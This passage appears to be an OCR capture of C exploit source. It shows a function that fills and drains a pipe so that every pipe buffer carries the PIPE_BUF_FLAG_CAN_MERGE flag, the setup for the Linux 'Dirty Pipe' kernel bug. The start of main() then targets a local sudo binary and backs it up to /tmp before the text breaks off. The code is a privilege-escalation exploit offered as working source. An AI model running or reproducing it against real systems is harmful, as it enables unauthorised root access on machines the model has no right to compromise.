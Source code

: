       19. {
    
      20.     if (pipe(p)) abort();
    
      21.   22.     const unsigned pipe_size = fcntl(p[1], F_GETPIPE_SZ);
    
      23.     static char buffer[4096];
    
      24.   25.     /* fill the pipe completely; each pipe_buffer will now have
    
      26.        the PIPE_BUF_FLAG_CAN_MERGE flag */
    
      27.     for (unsigned r = pipe_size; r > 0;) {
    
      28.         unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
    
      29.         write(p[1], buffer, n);
    
      30.         r -= n;
    
      31.     }
    
      32.   33.     /* drain the pipe, freeing all pipe_buffer instances (but
    
      34.        leaving the flags initialized) */
    
      35.     for (unsigned r = pipe_size; r > 0;) {
    
      36.         unsigned n = r > sizeof(buffer) ? sizeof(buffer) : r;
    
      37.         read(p[0], buffer, n);
    
      38.         r -= n;
    
      39.     }
    
      40.   41.     /* the pipe is now empty, and if somebody adds a new
    
      42.        pipe_buffer without initializing its "flags", the buffer
    
      43.        will be mergeable */
    
      44. }
    
      45.   46. int main() {
    
      47.     const char *const path = "./sudo";
    
      48.   49.         printf("Backing up ./sudo to /tmp/sudo.bak ...\n");
    
      50.         FILE *f1 = fopen("./sudo", "r");
    
      51.         FILE *f2 = fopen("/tmp/sudo.bak", "w");
    
      52.   53.         if (f1 == NULL) {
    
      54.             printf("Failed to open ./sudo\n");
    
      55.             exit(EXIT_FAILURE);
    
      56.         } else if (f2 == NULL) {
    
      57.             printf("Failed to open /tmp/sudo.bak\n");
    
      58.             fclose(f1);
    